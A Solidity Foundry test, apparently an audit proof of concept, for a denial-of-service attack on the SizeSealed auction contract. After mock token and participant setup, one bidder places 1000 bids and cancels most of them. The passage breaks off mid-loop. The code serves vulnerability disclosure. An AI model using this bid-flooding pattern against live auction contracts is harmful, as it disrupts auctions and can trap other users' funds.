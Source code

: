```solidity
    function setUp() public {
        // Create quote and bid tokens
        quoteToken1 = new MockERC20("Dai Stablecoin", "DAI", 18);
        quoteToken2 = new MockERC20("Similar to ether", "SETH", 18);

        baseToken = new MockERC20("Wrapped Ether", "WETH", 18);

        // Init auction contract
        auction = new SizeSealed();

        // Create seller
        seller1 = new MockSeller(address(auction), quoteToken1, baseToken);
        // seller2 = new MockSeller(address(auction), quoteToken2, baseToken);

        // Create bidders
        bidder1 = new MockBuyer(address(auction), quoteToken1, baseToken);
        bidder2 = new MockBuyer(address(auction), quoteToken1, baseToken);
        // bidder3 = new MockBuyer(address(auction), quoteToken2, baseToken);

        startTime = uint32(block.timestamp);
        endTime = uint32(block.timestamp) + 60;
        unlockTime = uint32(block.timestamp) + 100;
        unlockEnd = uint32(block.timestamp) + 1000;
        cliffPercent = 0;

        baseToSell = 10000 ether;
        vm.label(address(bidder1), "Bidder 1");
        vm.label(address(bidder2), "Bidder 2");
        vm.label(address(quoteToken1), "Quote Token1");
        vm.label(address(quoteToken2), "Quote Token2");
        vm.label(address(baseToken), "Base Token");
    }

    function testAuctionDOS() public {
        
        (uint256 sellerBeforeQuote, uint256 sellerBeforeBase) = seller1.balances();
        uint256 aid = seller1.createAuction(
            baseToSell, reserveQuotePerBase1, minimumBidQuote1, startTime, endTime, unlockTime, unlockEnd, cliffPercent
        );
        bidder1.setAuctionId(aid);
        bidder2.setAuctionId(aid);

        for(uint256 i = 0;i < 1000;i++){
            bidder1.bidOnAuctionWithSalt(1 ether, 1501 ether, "hello"); // first
        }

        // first
        (uint256 buyerAfterQuote1,  uint256 buyerbase1) = bidder1.balances();
        emit log_named_decimal_uint("balance quote before cancel", buyerAfterQuote1,18);
        emit log_named_decimal_uint("balance base before cancel", buyerbase1,18);
        for(uint256 i=999;i > 0;i--){
            bidder1.cancel(i);
        }
        // bidder2.bidOnAuctionWithSalt(10000 ether, 16000000 ether, "hello");
        // second
        (uint256 buyerAfterQuote2,  uint256 buyerbase2) = bidder1.balances();
        emit log_named_decimal_uint("balance quote after cancel", buyerAfterQuote2,18);
        emit log_named_decimal_uint("balance base after cancel", buyerbase2,18);
        
        uint256[] memory bidIndices = new uint[](1000);
        for(uint256 i = 0;i < 1000;i++){
            bidIndices[i] = i;
```